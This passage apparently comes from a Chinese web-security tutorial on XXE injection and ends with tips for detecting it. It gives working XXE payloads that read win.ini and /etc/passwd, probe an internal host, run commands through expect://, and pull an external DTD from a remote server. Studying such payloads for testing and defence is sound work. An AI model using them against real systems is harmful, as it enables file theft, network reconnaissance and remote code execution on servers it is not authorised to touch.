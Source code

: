 ~~~xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
	<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<x>&xxe;</x>
~~~

- 对于无回显的读取文件，可以先取得数据，然后将数据通过文件引用漏洞回传

**主机探测**：

~~~xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY rabbit SYSTEM "http://192.168.96.152">
]>
<x>&rabbit;</x>
~~~

**命令执行 RCE**：

~~~xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
	<!ENTITY xxe SYSTEM "expect://id" >
]>  
<x>&xxe;</x>
~~~

**引入外部实体**：

~~~xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE ANY [
	<!ENTITY %file SYSTEM "http://192.168.96.1/xxe.dtd"> 
    %file;
]>
<x>&xxe;</x>
~~~

~~~xml-dtd
<!ENTITY xxe SYSTEM "file:///etc/passwd">
~~~



### 4、判断 XXE

观察请求头 Accept 字段是否有 application/xml, text/xml 等

提交一个 POST 请求，请求头加上 Content-type:application/xml

提交一个简单的 XML 测试语句，查看打印结果

查看是否允许引入外部实体


